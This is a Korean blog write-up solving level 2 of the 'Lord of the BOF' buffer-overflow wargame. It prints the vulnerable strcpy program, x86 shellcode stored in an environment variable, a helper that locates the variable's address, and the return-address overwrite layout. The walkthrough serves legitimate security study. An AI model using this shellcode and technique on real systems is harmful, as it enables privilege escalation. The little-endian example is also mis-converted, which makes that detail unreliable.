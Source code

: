 ```yaml
---
title: BOF/ LOB-level2(gremlin)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 2(gremlin)
**ID : gremlin**  
**PASSWD : hello bof world**         

```bash
$ bash2
```
풀이 시작 전에 bash2로 꼭 변경  
**bash는 \xff를 \x00(NULL)로 인식하여 제대로 문제를 풀 수 없다.**  

![그림1](/assets/LOB/level2/1.PNG)  
사용자 cobolt의 권한의 cobolt파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 cobolt의 권한으로 파일을 실행할 수 있다.**  
**cobolt파일이 쉘을 실행시키도록 한다면 사용자 cobolt의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - cobolt
        - small buffer
*/

int main(int argc, char *argv[])
{
    char buffer[16];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
{% endhighlight %}  

**cobolt.c**

### 소스분석  
1. buffer의 크기가 16Byte이다.  
[LOB(level1)](https://limjunho.github.io/2019/09/29/LOB-level1(gate).html)**와 같이 쉘코드를 사용하기엔 buffer의 크기가 작다.**  
2. argc가 2보다 작다면 "ergv error"을 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개이상의 인자를 전달하여야 한다.**  
3. main에 전달받은 인자 argv[1](argv[0]은 파일명)을 buffer에 복사하여 출력하는 소스  
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 16Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  

### Solution  
**환경변수에 쉘코드를 등록하고 환경변수의 주소를 buffer over-flow시켜 프로그램이 쉘코드를 실행하도록 공격한다.**  
what is 환경변수? - 프로세스가 컴퓨터에서 동작하는 방식에 영향을 미치는 동적인 값들의 모임으로 쉘에서 정의되고 실행하는 동안 프로그램에 필요한 변수를 나타냄.  

#### level2에서 사용한 쉘코드  
**\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
이 41Byte 쉘코드는 /bin/bash를 실행시키도록 하는 코드이다.  

![그림2](/assets/LOB/level2/2.PNG)  
**위와같이 환경변수에 쉘코드를 등록한다**  

**buffer over-flow를 이용하기 위해서는 프로그램 Stack의 구조를 알아야 한다.**  

스택구조|
---|
buffer(16Byte)|
sfp(4Byte)|
ret(4Byte)| 

**SFP(Stack frame pointer) - 이전 함수의 EBP주소를 담고 있다.**  
(EBP - 스택의 가장 바닥을 가리키는 포인터)  
**RET(Return Address) - 함수가 종료시 return될 주소**  

#### 쉘코드의 주소를 ret에 덮어씌우면 main함수가 종료되며 쉘코드를 실행시킬 것이다.  

### 환경변수 주소    

**환경변수의 주소를 얻는 프로그램을 코딩**  
<br />
{% highlight C linenos %}  
/* 환경변수의 주소는 bf로 시작한다 즉, 프로그램이 실행되면 환경변수의 데이터들이 스택 어딘가에 들어간다.
   따라서 프로그램 이름의 길이나 명령어의 길이등에 따라 환경변수의 주소가 바뀐다.
   아래의 소스는 정확한 주소를 획득할 수 있다. */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char* argv[]){
    char* ptr;
    
    ptr = getenv(argv[1]);
    ptr += (strlen(argv[0]) - strlen(argv[2])) * 2;
    // argv[0]=./getenv	argv[2]=타깃 바이너리의 절대경로
    printf("%s will be at %p\n", argv[1], ptr);

    return 0;
}
{% endhighlight %} 
![그림3](/assets/LOB/level2/3.PNG)  
**첫 번째 인자는 환경변수 이름, 두 번째 인자는 타깃 파일의 절대경로이다.**  

### Attack  

환경변수의 주소와 스택의 구조를 파악하였으므로 공격을 시도할 수 있다.  
**./gremlin [dummy값] + [환경변수주소]**의 형태로 공격.  
**이 때 dummy값의 길이는 buffer의 길이 + sfp(4byte)만큼 즉 20Byte여야 한다.**
**또한 RET에 덮을 쉘코드의 주소는 리틀 엔디안 방식으로 기입한다.**  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

![그림4](/assets/LOB/level1/4.PNG)  
공격 성공.   
